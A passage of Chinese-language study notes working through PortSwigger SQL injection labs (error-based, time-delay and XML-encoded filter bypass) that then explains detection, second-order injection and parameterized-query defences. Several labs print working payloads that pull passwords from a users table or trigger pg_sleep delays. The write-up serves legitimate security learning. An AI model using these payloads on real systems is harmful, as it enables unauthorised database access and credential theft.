<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based" class="external">https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目的：读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>测试发现 <code>Cookie</code> 中的 <code>TrackingId</code> 存在注入，会产生如下错误</p>
<p></p>
<p>由此得到 SQL 语句的形式为</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="sql" data-theme="github-light github-dark"><code data-language="sql" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">SQL</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> SELECT</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> *</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> FROM</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> tracking </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">WHERE</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> id </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">=</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> 'xxx'</span></span></code></pre></figure>
<p>但现在需要读取 users 表，只能借助这个报错信息来得到查询的内容，经过测速发现为 PostgreSQL</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category=Pets </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> TrackingId=8q3CTJgzvYlSIbua' || CAST((select version()) AS int)--; session=BZlPiDvsfEwGPFgKaO5yQhwndNe1b5Du</span></span></code></pre></figure>
<p></p>
<p>为此，构造如下语句</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="sql" data-theme="github-light github-dark"><code data-language="sql" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> /filter</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">?category</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">=</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">Pets </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">.</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1</span></span>
<span data-line><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">Cookie: TrackingId</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">=</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">8q3CTJgzvYlSIbua</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">' || CAST((SELECT password FROM users LIMIT 1) AS int) || '</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">;</span></span></code></pre></figure>
<p>但提示如下错误</p>
<pre><code>Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '8q3CTJgzvYlSIbua' || CAST((SELECT password FROM users LIMIT '. Expected  char
</code></pre>
<h4 id="lab-14-blind-sql-injection-with-time-delays">Lab 14: Blind SQL Injection with time Delays<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-14-blind-sql-injection-with-time-delays" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/blind/lab-time-delays" class="external">https://portswigger.net/web-security/sql-injection/blind/lab-time-delays<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：对目标网站进行延迟注入，时间为 10 秒</p>
<p>由于已知提示，所以直接对 Cookie 参数进行延迟注入，逐个测速，以下 <code>payload</code> 有效</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> / </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> TrackingId=5ccKuLVmuLOOuYQz' || pg_sleep(10)--; session=Xs8L4HKOulVlZx2QFiCycq17uzTjpiA2</span></span></code></pre></figure>
<h4 id="lab-15-blind-sql-injection-with-time-delays-and-information-retrieval">Lab 15: Blind SQL Injection with time Delays and Information Retrieval<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-15-blind-sql-injection-with-time-delays-and-information-retrieval" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval" class="external">https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：通过延迟注入，读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>逐个测试，确认 <code>pg_sleep(10)</code> 有效</p>
<h4 id="lab-16-blind-sql-injection-with-out-of-band-interaction">Lab 16: Blind SQL Injection with Out-of-band Interaction<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-16-blind-sql-injection-with-out-of-band-interaction" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band" class="external">https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目的：通过 OAST 注入，触发 DNS 查询来验证注入的存在</p>
<p>社区版本用不了 <code>Burp Collaborator</code>，跳过。</p>
<h4 id="lab-17-sql-injection-with-filter-bypass-via-xml-encoding">Lab 17: SQL Injection with Filter Bypass via XML Encoding<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-17-sql-injection-with-filter-bypass-via-xml-encoding" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding" class="external">https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目的：读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>测试发现以下接口存在注入</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">POST</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /product/stock </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line> </span>
<span data-line><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">&lt;?</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">xml</span><span style="--shiki-light:#6F42C1;--shiki-dark:#B392F0;"> version</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">=</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">&quot;1.0&quot;</span><span style="--shiki-light:#6F42C1;--shiki-dark:#B392F0;"> encoding</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">=</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">&quot;UTF-8&quot;</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">?>&lt;</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">stockCheck</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>&lt;</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">productId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>7&lt;/</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">productId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>&lt;</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">storeId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>1{{htmlenc(--)}}&lt;/</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">storeId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>&lt;/</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">stockCheck</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">></span></span></code></pre></figure>
<p>通过 <code>UNION</code> 查询读取 <code>users</code> 表，并逐个测试密码</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">POST</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /product/stock </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line> </span>
<span data-line><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">&lt;?</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">xml</span><span style="--shiki-light:#6F42C1;--shiki-dark:#B392F0;"> version</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">=</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">&quot;1.0&quot;</span><span style="--shiki-light:#6F42C1;--shiki-dark:#B392F0;"> encoding</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">=</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">&quot;UTF-8&quot;</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">?>&lt;</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">stockCheck</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>&lt;</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">productId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>7&lt;/</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">productId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>&lt;</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">storeId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>1{{htmlenc( union select password from users--)}}&lt;/</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">storeId</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">>&lt;/</span><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">stockCheck</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">></span></span></code></pre></figure>
<p></p>
<h2 id="如何发现-sql-注入">如何发现 SQL 注入<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#如何发现-sql-注入" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<p>常见的方式有</p>
<ul>
<li>使用单引号作为参数</li>
<li>使用 SQL 语法中的一些关键字</li>
<li>使用 SQL 的与或关系</li>
<li>使用基于时间 SQL 语句进行盲注</li>
<li>使用 OAST 形式的 payload</li>
</ul>
<p>并观察回显内容变化。</p>
<h3 id="sql-注入的形式">SQL 注入的形式<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#sql-注入的形式" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<p><code>SQL</code> 注入也可能发生在其它形式的参数重，例如 <code>Web</code> 应用中常用的 <code>XML</code> 或 <code>Json</code> 数据，比如下面这个例子，其中使用了 <code>xml</code> 转义字符来表示字母 <code>S</code></p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>&lt;stockCheck></span></span>
<span data-line><span>    &lt;productId></span></span>
<span data-line><span>        123</span></span>
<span data-line><span>    &lt;/productId></span></span>
<span data-line><span>    &lt;storeId></span></span>
<span data-line><span>        999 &amp;#x53;ELECT * FROM information_schema.tables</span></span>
<span data-line><span>    &lt;/storeId></span></span>
<span data-line><span>&lt;/stockCheck></span></span></code></pre></figure>
<p>而后台处理 XML 数据的逻辑会对转义字符进行解码再交给后续逻辑。</p>
<h2 id="second-order-sql-injection二次注入">Second-order SQL Injection（二次注入）<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#second-order-sql-injection二次注入" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<p>这里还是使用它的英文名称 Second-order SQL injection 叭，业内中文的翻译及容易让人误解。可以把前面列举的 SQL 注入看作 First-order SQL Injection，应用将用户的参数以各种情况拼接到 SQL 语句中执行并导致不安全的行为发生。</p>
<p>而 Second-order 是指，在进行第一次注入时，内容并不会被执行，而是存储在某个地方，比如数据库之中。当某个人，比如攻击者，比如用户访问了某个页面或使用某些功能时，第一次注入的数据被取出并放入 SQL 语句之中被执行。</p>
<p></p>
<h2 id="数据库特性">数据库特性<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#数据库特性" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<p>不同的数据库，由于自身特点，在进行 SQL 注入时会有不同的利用方法。这些可能时独一无二。</p>
<ul>
<li><a href="https://portswigger.net/web-security/sql-injection/cheat-sheet" class="external">SQL injection cheat sheet | Web Security Academy (portswigger.net)<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></li>
<li><a href="https://book.hacktricks.xyz/pentesting-web/sql-injection" class="external">SQL Injection - HackTricks<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></li>
</ul>
<h2 id="如何避免-sql-注入">如何避免 SQL 注入<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#如何避免-sql-注入" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<p>以下是代码开发的角度</p>
<p>常见的解决方案是，参数化查询。大多数的数据库接口或代码库都支持这种方式</p>
<p>以 Java 语言为例，下面是一段⚠️的代码</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>String query = &quot;SELECT * FROM products WHERE category = '&quot;+ input + &quot;'&quot;;</span></span>
<span data-line><span>Statement statement = connection.createStatement();</span></span>
<span data-line><span>ResultSet resultSet = statement.executeQuery(query);</span></span></code></pre></figure>
<p>而可以通过下面这样改为参数化查询</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>PreparedStatement statement = connection.prepareStatement(&quot;SELECT * FROM products WHERE category = ?&quot;);</span></span>
<span data-line><span>statement.setString(1, input);</span></span>
<span data-line><span>ResultSet resultSet = statement.executeQuery();</span></span></code></pre></figure>
<p>参数化查询能防护 SQL 注入的原因，在于它的原理是先对 SQL 语句进行编译并进行缓存，也就是说没发改变它的执行逻辑。之后在执行语句时，会将参数进行替换，而此时参数内容即便放入符合 SQL 语法点语句也不会被执行，而是被看作指定类型的参数。</p>
<p><a href="https://blog.csdn.net/wrs120/article/details/54924763" class="external">参数化查询原理_王如霜的博客-CSDN博客_sql参数化查询原理<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
<h2 id="reference">Reference<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#reference" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<ol>
<li><a href="https://portswigger.net/web-security/sql-injection" class="external">What is SQL Injection? Tutorial &amp; Examples | Web Security Academy (portswigger.net)<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></li>
<li><a href="https://portswigger.net/web-security/sql-injection/cheat-sheet" class="external">SQL injection cheat sheet | Web Security Academy (portswigger.net)<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></li>
<li><a href="http://www.postgres.cn/docs/9.3/infoschema-columns.html" class="external">http://www.postgres.cn/docs/9.3/infoschema-columns.html<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a> 『PostgreSQL <code>infoschema-columns</code> 表』</li>
<li><a href="https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html" class="external">https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a> 『Oracle <code>ALL_TABLES</code> 表』</li>
</ol></article></div><div class="right sidebar"><div class="graph"><h3>Graph View</h3><div class="graph-outer"><div id="graph-container" data-cfg="{&quot;drag&quot;:true,&quot;zoom&quot;:true,&quot;depth&quot;:1,&quot;scale&quot;:1.1,&quot;repelForce&quot;:0.5,&quot;centerForce&quot;:0.3,&quot;linkDistance&quot;:30,&quot;fontSize&quot;:0.6,&quot;opacityScale&quot;:1,&quot;showTags&quot;:false,&quot;removeTags&quot;:[],&quot;focusOnHover&quot;:false}"></div><svg version="1.1" id="global-graph-icon" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 55 55" fill="currentColor" xml:space="preserve"><path d="M49,0c-3.309,0-6,2.691-6,6c0,1.035,0.263,2.009,0.726,2.86l-9.829,9.829C32.542,17.634,30.846,17,29,17
	s-3.542,0.634-4.898,1.688l-7.669-7.669C16.785,10.424,17,9.74,17,9c0-2.206-1.794-4-4-4S9,6.794,9,9s1.794,4,4,4
	c0.74,0,1.424-0.215,2.019-0.567l7.669,7.669C21.634,21.458,21,23.154,21,25s0.634,3.542,1.688,4.897L10.024,42.562
	C8.958,41.595,7.549,41,6,41c-3.309,0-6,2.691-6,6s2.691,6,6,6s6-2.691,6-6c0-1.035-0.263-2.009-0.726-2.86l12.829-12.829
	c1.106,0.86,2.44,1.436,3.898,1.619v10.16c-2.833,0.478-5,2.942-5,5.91c0,3.309,2.691,6,6,6s6-2.691,6-6c0-2.967-2.167-5.431-5-5.91
	v-10.16c1.458-0.183,2.792-0.759,3.898-1.619l7.669,7.669C41.215,39.576,41,40.26,41,41c0,2.206,1.794,4,4,4s4-1.794,4-4
	s-1.794-4-4-4c-0.74,0-1.424,0.215-2.019,0.567l-7.669-7.669C36.366,28.542,37,26.846,37,25s-0.634-3.542-1.688-4.897l9.665-9.665
	C46.042,11.405,47.451,12,49,12c3.309,0,6-2.691,6-6S52.309,0,49,0z M11,9c0-1.103,0.897-2,2-2s2,0.897,2,2s-0.897,2-2,2
	S11,10.103,11,9z M6,51c-2.206,0-4-1.794-4-4s1.794-4,4-4s4,1.794,4,4S8.206,51,6,51z M33,49c0,2.206-1.794,4-4,4s-4-1.794-4-4
	s1.794-4,4-4S33,46.794,33,49z M29,31c-3.309,0-6-2.691-6-6s2.691-6,6-6s6,2.691,6,6S32.309,31,29,31z M47,41c0,1.103-0.897,2-2,2
	s-2-0.897-2-2s0.897-2,2-2S47,39.897,47,41z M49,10c-2.206,0-4-1.794-4-4s1.794-4,4-4s4,1.794,4,4S51.206,10,49,10z"></path></svg></div><div id="global-graph-outer"><div id="global-graph-container" data-cfg="{&quot;drag&quot;:true,&quot;zoom&quot;:true,&quot;depth&quot;:-1,&quot;scale&quot;:0.9,&quot;repelForce&quot;:0.5,&quot;centerForce&quot;:0.3,&quot;linkDistance&quot;:30,&quot;fontSize&quot;:0.6,&quot;opacityScale&quot;:1,&quot;showTags&quot;:false,&quot;removeTags&quot;:[],&quot;focusOnHover&quot;:true}"></div></div></div><div class="toc desktop-only"><button type="button" id="toc" class><h3>Table of Contents</h3><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="fold"><polyline points="6 9 12 15 18 9"></polyline></svg></button><div id="toc-content"><ul class="overflow"><li class="depth-0"><a href="#sql-注入的危害" data-for="sql-注入的危害">SQL 注入的危害</a></li><li class="depth-0"><a href="#sql-注入示例" data-for="sql-注入示例">SQL 注入示例</a></li><li class="depth-1"><a href="#retrieving-hidden-data" data-for="retrieving-hidden-data">Retrieving Hidden Data</a></li><li class="depth-1"><a href="#subverting-application-logic" data-for="subverting-application-logic">Subverting Application Logic</a></li><li class="depth-1"><a href="#retrieving-data-from-other-database-tables" data-for="retrieving-data-from-other-database-tables">Retrieving Data from other Database Tables</a></li><li class="depth-1"><a href="#examining-the-database" data-for="examining-the-database">Examining the Database</a></li><li class="depth-1"><a href="#blind-sql-injection-vulnerabilities" data-for="blind-sql-injection-vulnerabilities">Blind SQL Injection Vulnerabilities</a></li><li class="depth-1"><a href="#labs" data-for="labs">Labs</a></li><li class="depth-0"><a href="#如何发现-sql-注入" data-for="如何发现-sql-注入">如何发现 SQL 注入</a></li><li class="depth-1"><a href="#sql-注入的形式" data-for="sql-注入的形式">SQL 注入的形式</a></li><li class="depth-0"><a href="#second-order-sql-injection二次注入" data-for="second-order-sql-injection二次注入">Second-order SQL Injection（二次注入）</a></li><li class="depth-0"><a href="#数据库特性" data-for="数据库特性">数据库特性</a></li><li class="depth-0"><a href="#如何避免-sql-注入" data-for="如何避免-sql-注入">如何避免 SQL 注入</a></li><li class="depth-0"><a href="#reference" data-for="reference">Reference</a></li></ul></div></div><div class="backlinks"><h3>Backlinks</h3><ul class="overflow"><li>No backlinks found</li></ul></div></div></div><footer class><hr/><p>Created with <a href="https://quartz.jzhao.xyz/">Quartz v4.2.3</a> © 